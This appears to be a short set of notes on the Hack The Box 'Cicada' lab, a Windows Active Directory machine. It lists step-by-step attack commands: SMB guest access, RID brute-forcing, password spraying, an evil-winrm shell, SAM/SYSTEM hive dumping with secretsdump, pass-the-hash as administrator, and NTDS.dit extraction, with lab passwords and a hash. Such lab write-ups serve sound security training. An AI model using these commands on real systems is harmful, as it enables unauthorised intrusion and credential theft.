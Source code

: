 https://0xdf.gitlab.io/2025/02/15/htb-cicada.html
Windows

# Methodology

Initial Foothold:
- Nmap
- SMB try user "guest" with empty pw: `netexec smb CICADA-DC -u guest -p '' --shares` => works
- connect to SMB share `smbclient -N //10.10.11.35/HR` => file with password
- brute-force RIDs to get usernames: `netexec smb CICADA-DC -u guest -p '' --rid-brute`
- Spray the previously discovered password on these usernames: `netexec smb CICADA-DC -u users -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success` => works for 1 user
- Enumerate users via LDAP: `netexec ldap CICADA-DC -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users` => A users description contains his password
- New user can access another SMB share: `netexec smb CICADA-DC -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares`
- Share contains a file with password
- Check if password works for WinRM: `netexec winrm CICADA-DC -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'` => yes
- Get shell: `evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'`

PrivEsc:
- Check user groups: `net user emily.oscars
- user is in the Backup Operators group =>
- dump SAM and hive: `reg save hklm\sam sam`, `reg save hklm\system system`, `download sam`, `download system`
- Retrieve hashes: `secretsdump.py -sam sam -system system LOCAL`
- Get a shell as Administrator via hash: `evil-winrm -i cicada.htb -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341`
- Retrieve NTDS.dit hashes: `netexec smb 10.10.11.35 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -M ntdsutil`